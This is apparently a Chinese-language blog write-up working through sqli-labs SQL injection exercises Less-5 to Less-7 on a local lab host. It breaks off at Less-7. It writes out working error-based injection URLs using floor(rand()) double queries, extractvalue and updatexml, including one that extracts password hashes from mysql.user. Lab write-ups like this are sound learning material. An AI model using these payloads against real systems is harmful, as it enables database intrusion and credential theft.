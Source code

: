 输入 `1`,这是啥...

![1566565656696]({{ site.url }}\assets\2020-05-04-sqli-labs.assets\1566565656696.png)

输入 `1'`,报错为 `'1'' LIMIT 0,1`。怀疑是单引号包起来的字符型注入。但是输入 `1' and '1'='1`依然显示`you are in`。看了一眼源代码，原来是半个盲注。然后唯一能显示信息的点就是报错。这种注入称为 `Double Injection`。

### 利用方法

[写得太太太全了](https://blog.csdn.net/wn314/article/details/89297560)

### 注入过程

一开始构造语句`http://192.168.130.128:8080/Less-5/?id=1' union select 1,(select count(*) from (select 0 union select 1) tmp group by concat((select authentication_string from mysql.user),floor(rand(14)*2)) LIMIT 1),3 --%20`，报错提示子查询只能包含一行。我以为是拼接函数中子查询的问题，添加 `limit 1`后仍然报错，后来意识到在`union select`语句中我这便是一个子查询。但是为了让其报错，肯定不能只执行一次得到第一个项后就返回，因此 `union select`语句不应当使用，同样，本来就不从正确显示中看结果，也没必要使用这个。

改之，`http://192.168.130.128:8080/Less-5/?id=1' and '1' in (select count(*) from (select 0 union select 1) tmp group by concat((select database()), ' ', floor(rand(14)*2))) --%20`，能够得到数据库名 `security`,同理能够一个一个地爆出里面地内容。试过用`group_concat()`好像不行。

### 补充

`group_concat()`不行是因为concat只接受长度64位以内

## Less-6

### 分析

输入 `1'`显示正常；输入 `1"`，报错为 `"1"" LIMIT 0,1`。存在字符型注入，猜测语句为 `id="$id"`

利用方法和注入过程基本同上。

换个语句 `http://192.168.130.128:8080/Less-6/?id=1"and (select 1 from (select concat((select database()), floor(rand(14)*2)) c, count(*) from information_schema.columns group by c) tmp) --%20`

### 补充

使用函数 `extractvalue(arg1, arg2)`；`arg1`:要查询的内容，任意；`arg2`:xml文件路径；利用，构造错误的路径格式；示例：`http://192.168.130.128:8080/Less-6/?id=1" and extractvalue("asda", concat("~", (select database()))) --%20`

使用函数 `updatexml(arg1, arg2, arg3)`;`arg1`：被替换的内容，`arg2`：xml路径，`arg3`替换内容。同上。示例 `http://192.168.130.128:8080/Less-6/?id=1" and updatexml('asd', concat("~~~~~~", database()), 'asd') --+`

## Less-7

### 分析

输入 `1'`显示错误，输入 `1' and '1' = '1`显示正确，但是输入 `1' --%20`显示错误。说明存在字符型注入且可能存在一些符号需要闭合。

输入 `1' ) --%20`显示错误，输入 `1' )) --%20`显示正确。猜测语句为 `id = (('$id'))`

### 利用方法
